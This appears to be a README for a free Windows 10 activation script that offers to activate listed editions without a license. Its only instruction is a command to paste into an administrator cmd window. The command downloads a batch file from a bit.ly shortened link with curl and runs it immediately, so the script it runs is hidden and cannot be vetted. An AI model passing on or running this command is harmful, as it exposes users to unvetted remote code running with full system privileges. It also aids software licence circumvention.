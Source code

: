 # Free-Win10-Activation
Free Windows 10 Activation </br>
Note: I I often update for this repo, if it fails try checking again.
# Information

This Script will activate your windows ( version 10 listed edition ) in seconds
 
<b>Supported Products:</b>
- Windows 10 Home N
- Windows 10 Home Single Language
- Windows 10 Home Country Specific
- Windows 10 Professional
- Windows 10 Professional N
- Windows 10 Education
- Windows 10 Education N
- Windows 10 Enterprise
- Windows 10 Enterprise N
- Windows 10 Enterprise LTSB
- Windows 10 Enterprise LTSB N

<b> Tested vesion </b>
- 22H2
- 21H2
- and older version (if work)

# IMPORTANT

<b>I am not responsible for what you do, If not sure PLEASE buy an official license to support Microsoft.</b>

<b>If you want to work forever, don't share this publicly.</b>

# How to activate ?

Copy this code in cmd , make sure to run as administrator.
```
curl -L bit.ly/ajiedevco-fraw10 -o aw10.cmd & aw10.cmd
```
